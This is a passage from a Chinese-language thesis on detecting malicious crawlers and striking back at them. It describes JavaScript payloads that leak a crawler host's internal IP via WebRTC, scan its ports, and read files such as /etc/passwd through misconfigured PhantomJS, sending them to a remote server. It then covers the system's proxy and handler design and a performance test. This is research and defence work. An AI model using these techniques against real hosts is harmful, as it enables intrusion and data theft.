针对于支持javascript的恶意爬虫,我们还可以使用对应的javascript去获取恶意爬虫所在的宿主系统上的敏感信息。利用javascript的api以及特殊的攻击技巧,我们能够获取的信息包括:爬虫所在宿主机的内网地址,爬虫所在内网的端口开放情况,甚至是爬虫宿主机上包含敏感信息的文件。


\subsection{内网IP地址获取}
我们可以利用webRTC接口在支持webRTC的浏览器上获取其内网IP地址。webRTC全称为web-based real-time communication。它在浏览器与浏览器或者设备与设备之间直接建立通信的信道,而不需要经由第三方服务器的转发\upcite{reiter2017webrtc}。最初的设计目的是提供直接地点到点的视频和音频传输手段,因此webRTC协议对外提供了一系列的realtime transport protocol的API接口。
为了构建最高效的连接链路,比如在NAT的内网中,浏览器所在宿主机使用私有IP,在NAT之后需要进行NAT穿透,所以所有的网络接口IP地址都是暴露在这些这些API接口。利用这个特性,可以获得使用网络代理后的爬虫的真实IP地址,从而有效地对抗使用分布式IP的恶意爬虫。

\subsection{端口扫描}
javascript存在支持跨域的接口,例如cross origin request以及支持跨域的html标签。即使因为浏览器的安全策略我们无法接收到跨域访问的返回结果,也并不妨碍我们发送相关的请求。最终可以在返回结果中通过超时来判断端口的开放情况。在我们的研究中,我们通过portscan.html中的攻击载荷来获恶意爬虫宿主机的端口开放情况,具体的攻击载荷参考附录B.2。在portscan.html,我们通过构建能够跨域的img标签,并将img标签中的URL地址指向我们想要扫描的目标主机的IPJ及端口。如果端口不开放,该img标签会产生超时错误,通过settimeout函数捕捉该超时,我们可以判断目标的端口开放情况。

但是因为浏览器自身的安全限制,一部分被标记为unsafe ports的端口是不允许在浏览器中访问的,因此针对这部分端口是无法进行端口扫描的。基于常用的端口,并过滤掉unsafe ports,我们在我们的攻击载荷中会扫描如下端口:80,443,445,1521,2222,3306,3389,5901,6379,7001,8000,8001,8005,8080,8888,22222。

图\ref{fig:portscan}是使用该攻击载荷后,在firefox浏览器中扫描内网某IP生成的效果。开放的端口会打印出open字符,未开放的端口会打印出close。


\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/portscan.png}
  \caption{firefox 端口扫描}
  \label{fig:portscan}
\end{figure}


将该攻击载荷部署到公网环境下,我们通过apache日志捕捉到了来自微软必应的爬虫请求,发现其在爬虫宿主机上开放了80和445端口,如图\ref{fig:bingscan}所示。

\centerline{}
\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/bing_crawler_portscan.png}
  \caption{bing爬虫端口扫描情况}
  \label{fig:bingscan}
\end{figure}



\subsection{任意文件读取}
而在部分配置不当的恶意爬虫中,我们甚至可以读取任意的系统文件。以PhantomJS为例,某些以PhantomJS作为无头浏览器的爬虫使用了这样的架构:一些静态的爬虫负责拉取网页上的数据并将其存储到本地文件系统中,而对于这些网页数据的渲染则是从本地文件中读取后再进行的,通过这样异步的处理可以提升效率。但在这种情境下,渲染相关js的时候,相应的origin也将对应着本地的文件系统,因此在不违反跨域原则的前提条件下,我们可以直接读取本地的文件。具体的攻击载荷在file-read.html,详情参考附录B.3。攻击载荷将读取本地的/etc/passwd文件并将其发送到远程,攻击的效果如图\ref{fig:fileread}所示,我们在远程服务器的apache日志中可以获取到爬虫宿主机上/etc/passwd的内容。

\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/file_read.png}
  \caption{任意文件读取攻击效果(本地测试)}
  \label{fig:fileread}
\end{figure}


截止到本文提交前,该攻击载荷还成功攻击了来自于百度的爬虫,成功实现了任意文件读取的攻击效果,并因为可能会泄露爬虫算法和SEO规则,被评级为核心业务的高危漏洞,如图\ref{fig:crawler-loophole}所示。具体攻击细节会在其修复相关漏洞后公布。


\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.68\textwidth]{images/crawler_loophole.png}
  \caption{百度爬虫漏洞确认}
  \label{fig:crawler-loophole}
\end{figure}


\section{小结}
本章主要介绍了对抗恶意爬虫的三种攻击载荷。资源耗尽型攻击载荷可以针对大部分使用无头浏览器的爬虫,但是因为其攻击原理和攻击载荷都比较简单,容易被恶意爬虫作者发现,并指定相关的绕过策略,无法做为长久使用的攻击载荷,且因其无差别攻击的特性,必须有限制地进行使用。信息窃取类攻击载荷的隐蔽性较强,能够在爬虫渲染页面过程中隐秘地泄露出信息,但攻击载荷的利用条件比较严苛,需要相应的环境的支持,以及特殊的配置。在真实场景下,能够触发的概率不高。对于本章重点介绍的通过漏洞挖掘技术发现的内存破坏型攻击载荷,虽然其漏洞挖掘过程复杂,漏洞挖掘成本搞。但是一旦发现且复现相关漏洞,并构造出相应的攻击载荷,将会给恶意爬虫带来巨大的降维打击。调试难度高,漏洞函数调用层次深,这些因素都对恶意爬虫作者提出了巨大的挑战,使得内存破坏型漏洞成为恶意爬虫对抗中的“大杀器”。以PhantomJS的内存破坏漏洞为例,该漏洞不需要PhantomJS去执行javascript,只要存在对页面的渲染,就可以触发该攻击载荷,最终通过空指针引用直接导致爬虫进程奔溃退出。


\chapter{恶意爬虫检测与对抗系统的实现与评估}



\section{恶意爬虫检测与对抗系统架构设计}

整个恶意爬虫检测与对抗系统根据不同的功能,总共分为四个模块:

\begin{itemize}
\item[1)] proxy:转发所有流量到指定服务器,记录所有请求到数据库,并根据相应规则,在返回的数据中注入相关的载荷。注入的载荷包含对请求来源的指纹和动态信息的收集脚本,使用taint-link技术污染的隐藏链接,以及针对恶意爬虫的攻击载荷。
\item[2)] server:模拟的web服务器,包含一定的目录结构以及深层次的网页,作为爬虫爬取的目标网站。
\item[3)] crawler:使用多策略爬虫宿主工具模拟出的爬虫,包含普通爬虫以及恶意爬虫。
\item[4)] handler:恶意爬虫检测与对抗系统的核心。包含请求数据库,规则数据库与相应处理进程。负责检测恶意爬虫并根据相关信息控制proxy返回的攻击载荷。
\end{itemize}

\begin{figure}[!h]
  \centering
  
\includegraphics[width=0.8\textwidth]{images/architecture/architecture001.jpeg}
  \caption{系统架构}
  \label{fig:architecture}
\end{figure}

四个模块的协作关系如图\ref{fig:architecture}所示,所有模块的生命周期使用docker-composer统一管理,并统一被部署到如表\ref{tab:sys-env}所示实验环境中。

\begin{table}[h]
  \caption{系统部署环境}
  \label{tab:sys-env}
  \centering
\begin{tabular}{|p{3cm}<{\centering}|p{3cm}<{\centering}|p{3cm}<{\centering}|p{1cm}<{\centering}|p{3cm}<{\centering}|}
    \hline
   \textbf{操作系统版本} & \textbf{内核版本} & \textbf{处理器} & \textbf{内存} &  \textbf{docker版本}   \\
    \hline
macOS mojave & 10.14.4 & 4 cores 3.1 GHz Intel Core i5 & 16G   & Community 18.09.2 \\
\hline
    \end{tabular}
\end{table}

需要注意的是,为了保证请求处理的实时性,session分类与恶意爬虫识别功能是与请求处理部分异步进行的,这也意味着恶意爬虫的发现与处理会有一定的延迟效应。但只要恶意爬虫的session被识别出来,相应的IP以及session key会被标记为黑名单,此后所有来自该IP和session key的请求都将会被阻断。此外,mitm-proxy对于redis-db中的恶意规则的加载也是存在一定滞后的,用户可以手工设定恶意规则库的刷新频率。
该恶意爬虫对抗系统的全部源代码在gitlab上开源\upcite{crawlernet}。



\section{恶意爬虫检测与对抗系统具体实现}
我们的核心代码位于proxy模块以及handler模块,我们重点介绍这两部分的具体实现。

\subsection{crawler模块具体实现}
该程序用于根据不同的爬取策略创建爬虫并发送爬虫请求,这些策略包括以下条目:

\begin{itemize}
\item[1)] 搜寻目标(特定类型的信息(例如img),特定页面,网站目录结构,整个网站的所有内容, 有弱点的网页程序 ,目录暴力破解)
\item[2)] 爬行速度(慢,中,快,非常快,随机)
\item[3)] 爬行迭代算法(BFS,DFS)
\item[4)] 不同的网络驱动程序(python,curl,firefox,chrome,PhantomJS)
\item[5)] 对抗策略(IP混淆,HTTP header突变)
\end {itemize}

多策略爬虫工具产生的每个爬虫,都能够在一个时隙内发送一系列请求。 对于该时隙中的每个爬虫,我们都可以提供以下参数对其进行初始化。

\begin{itemize}
\item 目标网站的IP和端口
\item 上述策略的选择和组合
\item 最大请求数目(限制请求session的长度)
\end {itemize}

发送的数据经过解析后的呈现的json数据结构如下所示,其中,为了模拟分布式爬虫,我们在所有请求的URL中添加一个fakeip字段,该字段将会被作为爬虫请求的来源IP进行相应的处理。此外,js\_{}fp字段是通过浏览器指纹生成算法生成的指纹,用于辅助动态session分类,real\_{}session字段标记了当前请求来源的真正session,用于在评估阶段计算session分类的准确率。
\centerline{}
\lstset{language=JavaScript}
\begin{lstlisting}
{"request_time": 1574343774.2427855, "src_ip": "172.16.10.1", "dst_ip": "172.16.10.1", "path": "/templets/default/style/dedecms.css", "content": "", "cookie": {"js_fp": "2397a228524423b62397a228b3be6d89"}, "headers": {"Host": "172.16.10.1", "Connection": "keep-alive", "Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.97 Safari/537.36", "Sec-Fetch-User": "?1", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,pl;q=0.6,lb;q=0.5,da;q=0.4", "If-None-Match": "\"3442-58c479dc42f40-gzip\"", "If-Modified-Since": "Thu, 27 Jun 2019 05:41:41 GMT"}, "real_session": "66888494", "js_fp": "2397a228524423b62397a228b3be6d89", "method": "GET", "crawler":"normal"}
\end{lstlisting}

返回结果的json格式如下所示:
\lstset{language=JavaScript}
\begin{lstlisting}
{"response_code": 200, "response_len": 6, "content":"aaaaaaa"}
\end{lstlisting}


\subsection{proxy模块具体实现}

proxy模块实现的功能是对request的预处理、转发以及对response的载荷注入。在request的预处理过程中,首先将原始的HTTP request转为程序可以处理的json格式数据,随后提取HTTP request中的IP地址以及正确的session,并使用规则库中的相关规则检查IP与session,如果IP与session任意元素出现在黑名单中,则使用类似污点传播技术的方法,将另一元素也存储与黑名单中。黑名单的数据来源于handler模块的定时更新,而proxy在每处理n个请求之后,会同步黑名单的数据,n的取值根据具体需求设定。进一步使用相关算法,分析出爬虫使用的无头浏览器的类型后,proxy模块会生成对应的攻击载荷,替换掉原始的返回数据。除了返回攻击性的载荷之外,proxy模块还可以在服务器返回的html页面中通过iframe标签隐蔽地插入动态信息收集代码,用于收集访问者浏览器的指纹和其他的一些动态信息。此外,taint-link的功能也在proxy中实现,一旦发现有指向taint-link链接的请求,则将该请求标记为爬虫。proxy中对request的处理算法如下所示。

%\RestyleAlgo{boxed}
\begin{algorithm}[!h]
  \caption{proxy中的request处理算法}
  \KwData{session\_{}key, src\_{}ip, cookies}
  \KwResult{payload generation}

  $Init$ $black\_{}sessions$;\\
  $Init$ $black\_{}ips$; \\
  $Init$ $all\_{}sessions$;\\  
  
\eIf{session\_{}key \textbf{is} valid \textbf{and} session\_{}key \textbf{in} black\_{}sessions}{
	\If{request.src\_{}ip \textbf{not in} black\_{}ips}{
		$black\_{}ips$ \textbf{append} $src\_{}ip$;
	}
        $gen\_{}payload(session\_{}key) $;
}{
	\If{src\_{}ip  \textbf{in} black\_{}ips}{
		\eIf{session\_{}key \textbf{in} all\_{}sessions}{
			\If{session\_{}key  \textbf{not in} black\_{}sessions}{
           			$black\_{}sessions$ \textbf{append} $session\_{}key$;
			}
			$gen\_{}payload(session\_{}key)$;
    		}{ 
		$gen\_{}payload(random)$;
		}
	}
 }
 
\If{finger\_{}print \textbf{not in} cookies}{
	$gen\_{}payload(“fp\_{}generator”)$;
}

\end{algorithm}

在处理完request之后,结构化的request会被存储到数据库中,等待handler的进一步session分类以及恶意爬虫识别进程的异步处理。

\subsection{handler模块具体实现}
handler模块运行后,会按照一定的时间间隔,不断地执行session分类以及恶意爬虫识别进程。session分类进程使用了前文提到的静态session分类以及动态session分类方法,静态session分类选择的关键字段及相关阈值来自于前文通过梯度下降得到的阈值,而动态session分类则结合了静态session分类算法以及基于浏览器指纹生成算法产生的指纹进行分类。动态session分类适用于包含浏览器指纹信息的请求,而对于不包含指纹信息的请求,我们降级为静态session分类算法来进行处理。因此,通过该算法,我们最终得到的是静态session组以及动态session组。session分类算法的具体实现如下所示。但是,为了加快数据处理的速度,我们更偏向于使用多线程执行该算法,在这种情况下,可能会出现一个session被分离成多个session的情况。为了解决这种session分裂的问题,我们还引入了session合并算法,该算法每隔一段时间参考指纹匹配情况对已有的session进行合并。该算法实现简单,此处不赘述。

%\RestyleAlgo{boxed}
\begin{algorithm}[!h]
  \caption{session分类算法}
  \KwData{all\_{}requests, threshold}
  \KwResult{static\_{}session\_{}group, dynamic\_{}session\_{}group}
  

$Init$  $static\_{}session\_{}group$;\\
$Init$  $dynamic\_{}session\_{}group$;\\

\For{request \textbf{in} all\_{}requests}{
	
	\eIf{request \textbf{has} js\_{}fp}{
		\eIf{js\_{}fp \textbf{not in} dynamic\_{}session\_{}group}{
			$dynamic\_{}session\_{}group[js\_{}fp]    \leftarrow  [request]$;
		}{
			 $dynamic\_{}session\_{}group[js\_{}fp]$ \textbf{append}  $request$;
		}
	
	}{
		\For{session\_{}group \textbf{in} static\_{}session\_{}group}{
			\eIf{calc\_{}similarity(request, session\_{}group) < threshold}{
				$\textbf{generate}$  $new\_{}session\_{}group$;
				 $static\_{}session\_{}group[new\_{}session\_{}group]  \leftarrow  [request] $;
			}{
				$static\_{}session\_{}group[session\_{}group]$    \textbf{append}    $request$;
			}
		}
	}
}
 
\end{algorithm}

在完成session的处理后,需要对分类出的所有session进行恶意爬虫识别的处理。一旦某session被标记为爬虫,程序会统计该session中的IP情况情况以及session\_{}key,并将该session中出现较为频繁的IP以及session加入到黑名单数据库中。恶意爬虫的识别也是基于两个粒度进行,在单粒度下,我们会对该session中的每一个请求进行遍历,如果session中存在爬虫请求,则将该session标记为爬虫请求,与之类似,如果session中存在恶意爬虫请求,则将该session标记为恶意爬虫请求。在session粒度下,首先提取session对应的特征,如果满足事先设定的阈值条件,则相应地标记为爬虫或者恶意爬虫,普通爬虫与恶意爬虫之间的界限由人工设定。 恶意爬虫识别算法如下所示。


%\RestyleAlgo{boxed}
\begin{algorithm}[!h]
  \caption{session特征提取和恶意爬虫识别算法}
  \KwData{static\_{}session\_{}group, dynamic\_{}session\_{}group}
  \KwResult{crawler info in all\_{}session\_{}group}

$Initialization$;
 
$all\_{}session\_{}group  \leftarrow static\_{}session\_{}group +  dynamic\_{}session\_{}group$; \\
\For{session\_{}group \textbf{in} all\_{}session\_{}group}{
	
	\For{request \textbf{in} session\_{}group}{
			
		\If{malicious\_{}check(request)}{
			$session\_{}group.crawler \leftarrow "malicious-crawler"$; \\
			$\textbf{break}$;
		}
		
		\If{black\_{}check(request.crawler)}{
			$session\_group.crawler  \leftarrow  "malicious-crawler"$;\\
			$\textbf{break}$;
		}
		\If{crawler\_{}check(request.crawler)}{
			$session\_group.crawler  \leftarrow  "crawler"$;\\
			$\textbf{break}$;
		}
		
		\If{dynamic\_{}check(request)}{
			$session\_{}group.crawler \leftarrow   "crawler" $;\\
			$\textbf{break}$;
		}
	}
	$session\_{}group.crawler \leftarrow session\_{}check(session\_{}group)$;
}

\end{algorithm}


\section{恶意爬虫检测与对抗系统的评价}

\subsection{系统性能损失}
我们使用压力测试工具apache benchmark来评估部署了恶意爬虫检测与对抗系统后的性能损失。在我们的评估中,我们使用了10个线程,向原始的web服务器、部署了恶意爬虫检测与对抗系统的web服务器以及仅开启流量转发功能的web服务器分别发送了1000个请求,得到了如表\ref{tab:pressure}所示的相关统计信息。

\begin{table}[h]
  \caption{系统压力测试}
  \label{tab:pressure}
  \centering
\begin{tabular}{|p{2cm}<{\centering}||p{2cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|p{2cm}<{\centering}|}
    \hline
    \textbf{是否部署系统} &   \textbf{请求数/并发数}  &  \textbf{总时间}  &   \textbf{总传输字节数}  &  \textbf{请求平均处理时间}  &   \textbf{传输速率}  \\
    \hline
NO     &      1000/10  &    73.47s   &  15648kB  &    734.66ms   &   208kB/s \\
YES     &     1000/10  &     144.40s &  16296kB   &  1444.04ms    &  96.68kB/s\\
仅流量转发 &    1000/10 &     123.77  & 15648KB   &  1237.70ms   &   123.46kB/s \\

\hline
    \end{tabular}
\end{table}
\centerline{}

从统计信息可以看出,部署完整的恶意爬虫检测与对抗系统后,系统的处理性能降低为原先的50\%,但是部署了完整系统的服务器性能可以达到仅使用代理的服务器性能的80\%左右,通过这点不难看出,主要的系统性能损耗来源于mitm-proxy代理工具的流量转发部分。因为我们的系统是部署在与web server无关的主机上,因此,要获得与原先一致的性能体验,只需要增加部署主机的性能,或者使用相同的配置增加代理服务器的数量以实现负载均衡即可。此外,针对代理mitm-proxy消耗资源过大的问题,我们可以在未来使用nginx的反向代理功能来重新实现proxy模块,并将我们的request处理功能开发为nginx的模块,以此来降低proxy模块的性能损耗。

\subsection{session分类准确率}
我们使用多策略爬虫工具分批次生成了10000个请求,共计495个session。因为使用的webdriver有限,无法保证浏览器指纹的唯一性,因此,每次使用5个session,分批进行session分类,session分类的准确率按request粒度分别进行计算,对最终结果取加权平均值。最终session分类效果如表\ref{tab:session-res}所示。

\begin{table}[h]
  \caption{session分类效果}
  \label{tab:session-res}
  \centering
\begin{tabular}{|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|p{1.5cm}<{\centering}|}
    \hline
